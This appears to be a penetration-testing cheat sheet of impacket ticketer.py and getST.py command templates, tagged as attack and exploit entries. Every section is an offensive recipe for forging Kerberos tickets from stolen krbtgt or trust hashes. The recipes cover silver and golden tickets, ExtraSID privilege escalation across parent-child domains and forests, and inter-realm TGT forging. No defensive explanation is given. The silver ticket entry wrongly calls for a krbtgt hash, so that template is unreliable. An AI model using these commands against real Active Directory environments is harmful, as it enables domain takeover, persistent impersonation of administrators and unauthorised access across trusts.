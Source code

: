 # ticketer (imp)

% impacket-kerberos, windows, kerberos, 88



## silver ticket
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <domain_sid> -domain <domain_fqdn> -spn <SPN> -user-id <user_rid|500> <user|administrator>
```

## golden ticket  
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_hash> -domain <domain_fqdn> -domain-sid <domain_sid> -user-id <user_rid|500> <user|administrator>
```

## golden + ExtraSID (parent-child)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
if user = administrator no need of -user-id
```
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|519> -user-id <user_rid> <user|jubeaz>
```

## golden + ExtraSID (parent-child) (dc account)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
```
ticketer.py -nthash <krbtgt_nthash> -domain-sid <child_somain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid|516> -user-id <dc_rid>  '<dc_name>$'
```

## golden + ExtraSID (cross-forest)
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
if user = administrator no need of -user-id
```
ticketer.py -nthash <krbtgt_nthash>  -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<rid> -user-id <user_rid> <user>
```

## (golden) Inter-Realm TGT    
#plateform/linux #target/local  #cat/ATTACK/EXPLOIT
    export KRB5CCNAME=/tmp/jubeaz.ccache   
    getST.py -k -no-pass -spn <cifs>/<dc_fqdn> <src_domain_fqdn>/<user>@<domain_fqdn> -debug
```
ticketer.py -nthash <trust_nthash> -domain-sid <src_domain_sid> -domain <src_domain_fqdn> -extra-sid <dst_domain_sid>-<RID|519>" -spn "krbtgt/<dest_domain_fqdn>" -user-id <user_rid> <user|jubeaz>
```